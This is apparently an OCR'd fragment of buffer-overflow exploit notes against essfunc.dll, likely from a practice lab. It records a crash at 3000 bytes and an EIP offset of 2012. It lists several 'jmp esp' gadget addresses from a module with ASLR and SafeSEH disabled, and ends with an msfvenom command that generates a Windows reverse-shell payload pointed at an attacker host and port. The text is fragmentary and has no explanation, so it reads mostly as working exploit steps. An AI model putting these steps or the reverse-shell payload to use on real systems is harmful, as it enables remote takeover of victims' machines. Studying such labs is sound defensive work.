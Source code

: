 3000 - crashed

Offset 2012

Message=  0x62501535 : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)

0x62501533 : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)

0x62501527 : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)

0x6250151b : jmp esp | asciiprint,ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)

0x6250150f : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)

0x62501503 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)
0x625014f7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)

Log data, item 10
 Address=625014EB
 Message=  0x625014eb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)
  0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\essfunc.dll)


  msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4445 EXITFUNC=thread -b "\x00" -f c